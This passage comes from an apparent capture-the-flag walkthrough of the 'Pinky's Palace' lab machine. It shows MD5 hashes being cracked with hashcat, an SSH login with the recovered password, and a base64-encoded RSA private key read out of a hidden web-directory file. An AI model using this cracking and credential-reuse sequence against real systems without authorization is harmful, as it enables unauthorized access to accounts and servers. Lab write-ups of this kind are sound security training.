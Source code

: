 I saved the password hashes to a file, cracked them and got the password from the pinkymanage user.

```console
root@kali:~$ echo -e "f543dbfeaf238729831a321c7a68bee4\nd60dffed7cc0d87e1f4a11aa06ca73af" > pinky.hashes


root@kali:~$ hashcat -a 0 -m 0 pinky.hashes rockyou.txt
...
d60dffed7cc0d87e1f4a11aa06ca73af:3pinkysaf33pinkysaf3 
```

I logged in via SSH as user **pinkymanage** with the password **3pinkysaf33pinkysaf3**.

```console
root@kali:~$ ssh -l pinkymanage 192.168.179.160 -p 64666
pinkymanage@192.168.179.160's password: 
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb  2 04:00:51 2018 from 127.0.0.1
pinkymanage@pinkys-palace:~$ id
uid=1001(pinkymanage) gid=1001(pinkymanage) groups=1001(pinkymanage)
```

In the web directory I found the **.ultrasecret** file with a base64 encoded string.

```console
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat note.txt 
Hmm just in case I get locked out of my server I put this rsa key here.. Nobody will find it heh..

pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat .ultrasecret 
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBMTZmeEwzLyto
L0lMVFpld2t2ZWtoSVExeWswb0xJK3kzTjRBSXRraGV6MTFJaGE4CkhjN0tPeC9MOWcyamQzSDhk
R1BVZktLcjlzZXF0Zzk3WktBOTVTL3NiNHczUXRsMUFCdS9wVktaQmJHR3NIRy8KeUl2R0VQS1Mr
QlNaNHN0TVc3SG54N2NpTXVod2Nad0xxWm1zeVN1bUVDVHVlUXN3TlBibElUbHJxb2xwWUY4eApl
NDdFbDlwSHdld05XY0lybXFyYXhDSDVUQzdVaGpnR2FRd21XM3FIeXJTcXAvaksvY3RiMVpwblB2
K0RDODMzCnUvVHlqbTZ6OFJhRFpHL2dSQklyTUduTmJnNHBaRmh0Z2JHVk9mN2ZlR3ZCRlI4QmlU
KzdWRmZPN3lFdnlCeDkKZ3hyeVN4dTJaMGFPTThRUjZNR2FETWpZVW5COWFUWXV3OEdQNHdJREFR
QUJBb0lCQUE2aUg3U0lhOTRQcDRLeApXMUx0cU9VeEQzRlZ3UGNkSFJidG5YYS80d3k0dzl6M1Mv
WjkxSzBrWURPbkEwT1VvWHZJVmwvS3JmNkYxK2lZCnJsZktvOGlNY3UreXhRRXRQa291bDllQS9r
OHJsNmNiWU5jYjNPbkRmQU9IYWxYQVU4TVpGRkF4OWdrY1NwejYKNkxPdWNOSUp1eS8zUVpOSEZo
TlIrWVJDb0RLbkZuRUlMeFlMNVd6MnFwdFdNWUR1d3RtR3pPOTY4WWJMck9WMQpva1dONmdNaUVp
NXFwckJoNWE4d0JSUVZhQnJMWVdnOFdlWGZXZmtHektveEtQRkt6aEk1ajQvRWt4TERKcXQzCkxB
N0pSeG1Gbjc3L21idmFEVzhXWlgwZk9jUzh1Z3lSQkVOMFZwZG5GNmtsNnRmT1hLR2owZ2QrZ0Fp
dzBUVlIKMkNCN1BzRUNnWUVBOElXM1pzS3RiQ2tSQnRGK1ZUQnE0SzQ2czdTaFc5QVo2K2JwYitk
MU5SVDV4UkpHK0RzegpGM2NnNE4rMzluWWc4bUZ3c0Jobi9zemdWQk5XWm91V3JSTnJERXhIMHl1
NkhPSjd6TFdRYXlVaFFKaUlQeHBjCm4vRWVkNlNyY3lTZnpnbW50T2liNGh5R2pGMC93bnRqTWM3
M3h1QVZOdU84QTZXVytoZ1ZIS0VDZ1lFQTVZaVcKSzJ2YlZOQnFFQkNQK3hyQzVkSE9CSUVXdjg5
QkZJbS9Gcy9lc2g4dUU1TG5qMTFlUCsxRVpoMkZLOTJReDlZdgp5MWJNc0FrZitwdEZVSkxjazFN
MjBlZkFhU3ZPaHI1dWFqbnlxQ29mc1NVZktaYWE3blBRb3plcHFNS1hHTW95Ck1FRWVMT3c1NnNK
aFNwMFVkWHlhejlGUUFtdnpTWFVudW8xdCtnTUNnWUVBdWJ4NDJXa0NwU0M5WGtlT3lGaGcKWUdz
TE45VUlPaTlrcFJBbk9seEIzYUQ2RkY0OTRkbE5aaFIvbGtnTTlzMVlPZlJYSWhWbTBaUUNzOHBQ
RVZkQQpIeDE4ci8yRUJhV2h6a1p6bGF5ci9xR29vUXBwUkZtbUozajZyeWZCb21RbzUrSDYyVEE3
bUl1d3Qxb1hMNmM2Ci9hNjNGcVBhbmcyVkZqZmNjL3IrNnFFQ2dZQStBenJmSEZLemhXTkNWOWN1
ZGpwMXNNdENPRVlYS0QxaStSd2gKWTZPODUrT2c4aTJSZEI1RWt5dkprdXdwdjhDZjNPUW93Wmlu
YnErdkcwZ016c0M5Sk54SXRaNHNTK09PVCtDdwozbHNLeCthc0MyVng3UGlLdDh1RWJVTnZEck9Y
eFBqdVJJbU1oWDNZU1EvVUFzQkdSWlhsMDUwVUttb2VUSUtoClNoaU9WUUtCZ1FEc1M0MWltQ3hX
Mm1lNTQxdnR3QWFJcFE1bG81T1Z6RDJBOXRlRVBzVTZGMmg2WDdwV1I2SVgKQTlycExXbWJmeEdn
SjBNVmh4Q2pwZVlnU0M4VXNkTXpOYTJBcGN3T1dRZWtORTRlTHRPN1p2MlNWRHI2Y0lyYwpIY2NF
UCtNR00yZVVmQlBua2FQa2JDUHI3dG5xUGY4ZUpxaVFVa1dWaDJDbll6ZUFIcjVPbUE9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```